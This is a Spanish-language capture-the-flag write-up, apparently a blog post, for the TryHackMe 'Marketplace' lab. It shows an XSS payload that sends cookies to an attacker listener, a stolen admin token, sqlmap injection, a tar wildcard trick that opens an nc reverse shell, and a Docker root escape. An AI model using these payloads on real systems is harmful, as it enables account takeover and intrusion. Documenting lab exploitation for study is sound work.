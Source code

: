 ```yaml
---
title: "Marketplace | TryHackMe"
date: 2023-09-06T02:01:58+05:30
description: "¿Puedes hacerte cargo de la infraestructura de The Marketplace? "
tags: [tryhackme, sqli, docker, web]
---
```



## Escaneo de puertos

Comencé con el escaneo de `nmap` para encontrar puertos

```bash
$ nmap -sC -sV -Pn 10.10.144.119

22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

miramos el sitio web ya que tiene el puerto 80 disponible


{{< figure src="https://i.imgur.com/ipsPYs3.png">}}


En la barra de navegación encontré una página de inicio de sesión, probé algunas cargas útiles de inyección SQL allí pero no funcionaron, también probé sqlmap pero no obtuve resultados, luego fui a la página de registro para registrarme, ahora usando esas credenciales puedo iniciar sesión en el sitio web.

{{< figure src="https://i.imgur.com/0WpwGrs.png">}}

## XSS

En `/New listing` ahora podemos crear un nuevo listado. Como la sala tiene la etiqueta xss, pensé en usar una carga útil xss



{{< figure src="https://i.imgur.com/L1nqpH7.png">}}


`y tenemos un XSS`


## Cookie del administrador

```bash

<script>document.location='http://10.2.55.245:8000/XSS/grabber.php?c='+document.cookie</script>


```

Nos ponemos en escucha por el puerto 8000

```bash
$ nc -nvlp 8000
listening on [any] 1234 ...
connect to [10.2.55.245] from (UNKNOWN) [10.10.144.119] 43900
GET /bogus.php?**output=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoiY3liZXIiLCJhZG1pbiI6ZmFsc2UsImlhdCI6MTYwMzI1NTc3Mn0.XFgO3ci8vuX_vvcAOeRhducv_RFGgqttCvQuI2FwonE** HTTP/1.1
Host: 10.2.55.245:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://10.10.144.119/item/5
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

```


Para asegurarnos de que el administrador vea este listado, le enviaremos un informe mediante la opción "Informar listado a los administradores".

Después de informar, recibiremos la cookie del administrador. 


```bash

$ nc -nvlp 8000
listening on [any] 8000 ...
connect to [10.2.55.245] from (UNKNOWN) [10.10.144.119] 33228
GET /bogus.php?**output=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDMyNTc3Nzl9.Tt1_4wFLDydqatc32qabzzgeRiPtoVqPUGwGh6Ittcg** HTTP/1.1
Host: 10.2.55.245:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://localhost:3000/item/5
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

Ahora editamos en el panel del navegador el token/cookie y tenemos acceso al administrador


al entrar al panel tenemos la primera `flag`

```
THM{c37************************c348d5}
```

## Sql injection

Pulsamos un usuario y accedemos a: /admin?user=1


```
/admin?user='

```

y recibimos un mensaje de error


{{< figure src="https://i.imgur.com/TEAilqy.png">}}


Usamos sqlmap obtener la db

```bash
$ sqlmap --dbms=mysql  -u 'http://10.10.144.119/admin?user=2' -p 'user' --cookie="token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDMyNTc3Nzl9.Tt1_4wFLDydqatc32qabzzgeRiPtoVqPUGwGh6Ittcg**" --delay=2 --dump  

```

Obtenemos de la tabla messages esto:

```
User Hello!
An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password.
Your new password is: @b_ENXkGYUCAv3zJ
,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!
,Thank you for your report. We have been unable to review the list

```

Aquí tenemos una posible contraseña SSH `@b_ENXkGYUCAv3zJ`

Probamos con el user jake

```bash
$ ssh jake@10.10.144.119
The authenticity of host '10.10.38.49 (10.10.38.49)' can't be established.
ECDSA key fingerprint is SHA256:nRz0NCvN/WNh5cE3/dccxy42AXrwcJInG2n8nBWtNtg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.38.49' (ECDSA) to the list of known hosts.
jake@10.10.38.49's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)
```

```bash
jake@the-marketplace:~$ cat user.txt

THM{c3648************************c0b4}

```

### Escalada de privilegios Michael

```bash
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

Jake puede ejecutar /opt/backups/backup.sh como usuario michael

```bash
jake@the-marketplace:~$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *

```
Y encontré [esta increíble publicación](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) que explica cómo explotar el comodín en `tar` para escalar privilegios. 


```bash
jake@the-marketplace:~$ cd /opt/backups/
jake@the-marketplace:/opt/backups$ ls
backup.sh  backup.tar
jake@the-marketplace:/opt/backups$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.55.245 1234 >/tmp/f" > shell.sh
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/opt/backups$ echo "" > --checkpoint=1

```

Ejecutamos el script

```bash
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh 
Backing up files...
tar: backup.tar: file is the archive; not dumped
rm: cannot remove '/tmp/f': No such file or directory

```

Previamente nos colocamos en escucha en nuestra maquina local

```bash
$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.2.55.245] from (UNKNOWN) [10.10.144.119] 36678
id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)

```
Estamos en el grupo `Docker`, buscamos en [GTFO Bins](https://gtfobins.github.io/gtfobins/docker/?ref=infosecarticles.com) y somos usuario root

```bash
python -c'import pty;pty.spawn("/bin/bash")'
michael@the-marketplace:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
.
.
.
# cat root.txt
cat root.txt
THM{d17dfe53g9*********}
#


```

